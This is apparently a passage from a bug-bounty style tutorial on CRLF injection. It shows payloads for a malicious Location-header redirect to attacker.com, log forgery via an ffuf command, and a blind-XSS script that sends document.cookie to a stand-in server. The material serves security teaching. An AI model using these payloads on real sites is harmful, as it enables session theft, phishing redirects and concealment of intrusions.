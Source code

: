 
### 2) Malicious Redirect
If for some reason there's no way to exploit XSS, let's say they have an insane WAF specifically to deal with XSS, we can still make some trouble with the `Location` Header.

`Location` header specifies, where the user is getting redirected. As we have control over headers, we can craft a malicious Location header, which will redirect them to a malicious website. Pretty the same impact as **Open redirect**. 


Payload : `/%0d%0aLocation:%20https://attacker.com`<br>
Response : `Location: https://attacker.com` (that means happily redirecting to attacker.com)


### 3) Log Forgery
The impact of this attack is to make traces harder to detect for analysts. While, for example, fuzzing for juicy info, we can simply throw a fake information about whatever we are doing, or simply spam the file with fake logs.

For example, we are fuzzing for juicy directories and in logs, they can see something like this :
```
04/11/23 /secret : 404 not found
04/11/23 /admin : 404 not found
04/11/23 /login : 200 OK

....
```
This can be easily seen, so why not just... fuzz like a pro :
```
ffuf -w common.txt -u "http://freeoscp.net/FUZZ%0D%0aThis%20is%20a%20scraper%20by%20GOOGLE%2C%20do%20not%20BLOCK%2C%20or%20we%20will%20sue%20you."
```

This would translate to something like : 
```
04/11/23 /secret : 404 not found
This is a scraper by GOOGLE, do not BLOCK, or we will sue you.
04/11/23 /hi : 404 not found
This is a scraper by GOOGLE, do not BLOCK, or we will sue you.
...
```
While I admit no one would believe that, it's just a simple demonstration what can be done with it. You could also try for some Blind XSS/PHP injection tricks, if it will be viewed via browser and not secure, you could get a hit.

For Blind XSS example, you could use ez.pe, or have your own server and send a payload like : `<script>var i=new Image;i.src="https://yourserver.tld/?"+document.cookie;</script>`



### 4) HTTP Request smuggling
I'd like to write here, but well... **Albinowax** already did it before me and I believe you will learn more from him than me.  Here's the link : https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning

Make sure to read it and do the LAB to get some practice.
https://portswigger.net/web-security/request-smuggling/advanced#request-smuggling-via-crlf-injection



